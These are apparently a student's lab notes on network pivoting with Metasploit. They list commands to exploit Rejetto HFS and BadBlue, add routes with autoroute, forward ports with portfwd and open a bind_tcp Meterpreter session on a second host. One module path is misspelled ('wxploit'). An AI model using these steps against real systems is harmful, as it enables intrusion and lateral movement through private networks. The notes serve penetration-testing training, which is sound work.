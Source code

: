 ### Pivoting
* A post exploitation technique that utilizes a compromised host to attack other systems on the same private network.
* **HOW**
  * Meterpreter provides us with the ability to add a network route to the internal netwrok's subnet
  * --> Consequently scan --> Exploit other systems on the network.
 
* PRACTICAL
* Repeat steps till db_nmap without setg rhost as we got 2 IPs in this lab.
* `use exploit/windows/http/rejetto_hfs_exec`
* `set rhosts [IP]`
* `run`
* ***
* **Get access to system 2**
  * **Add a route to Victim 1**
    * Inside a meterpreter session
    * `run autoroute -s [subnet range like 10.0.22.0/20]`
    * This route is only applicable to MSFConsole. It doesn't mean that the system can be accessed from anywhere else.
  * **Forward port on Victim2 to meterpreter session**
    * `portfwd add -l [port on the machine with meterpreter session] -p 80 -r [Victim2]`
    * Check it: `portfwd list`
    * Now we should be able to run commands on localhost and know which services are running on the Victim2
    * `db_nmap -sS -sV -p [port mentioned previously] localhost` --> Here we can figure out vulnerabilities running on Victim2
   
  * Now based on the services running on Victim2:
  * In this lab, BadBlue is running on Victim2, so:
  * `use wxploit/windows/http/badblue_passthru`
  * We need to set the payload to bind_tcp as this time we are binding two systems, rather than runnning areverse_tcp where we need a reverse connection.
  * `set payload windows/meterpreter/bind_tcp`
  * `set rhosts [Victim2]`
  * `run` --> Access to Victim2.
